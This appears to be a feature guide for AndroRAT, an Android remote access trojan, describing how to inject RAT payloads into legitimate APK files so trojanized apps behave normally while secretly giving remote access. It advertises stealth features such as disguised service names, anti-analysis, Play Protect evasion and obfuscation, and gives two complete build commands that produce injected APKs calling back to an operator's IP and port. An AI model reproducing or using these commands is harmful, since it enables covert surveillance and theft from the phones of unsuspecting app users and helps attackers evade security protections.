 # APK Injection Feature Guide

## Overview

AndroRAT now supports **APK Injection** - the ability to inject RAT payloads into existing legitimate APK files while preserving their original functionality. This advanced feature allows you to create trojanized versions of popular apps that maintain their normal behavior while secretly providing remote access capabilities.

## Key Features

### 🎯 **Smart Injection Technology**
- **Functionality Preservation**: Original app works exactly as before
- **Intelligent Merging**: Seamless integration of RAT components
- **Resource Conflict Resolution**: Automatic handling of resource overlaps
- **Signature Management**: Attempts to preserve original signatures when possible

### 🛡️ **Advanced Stealth Integration**
- **System-Like Naming**: RAT components disguised as system services
- **Legitimate Behavior Simulation**: Appears as system optimization features
- **Anti-Analysis Integration**: Full evasion techniques applied to injected code
- **Package Randomization**: Stealth package names for detection avoidance

### 📱 **Wide Compatibility**
- **Android Versions**: 6.0 - 14+ support
- **APK Types**: Works with signed and unsigned APKs
- **App Complexity**: Handles simple to complex applications
- **Architecture Support**: Universal ARM/x86 compatibility

## Quick Start

### Basic Injection
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/legitimate_app.apk \
  -i 192.168.1.100 -p 8080 \
  -o injected_app.apk
```

### Maximum Stealth Injection
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/app.apk \
  -i YOUR_IP -p YOUR_PORT \
  -o stealth_app.apk \
  --stealth --anti-analysis --play-protect-evasion \
  --advanced-obfuscation --random-package
```
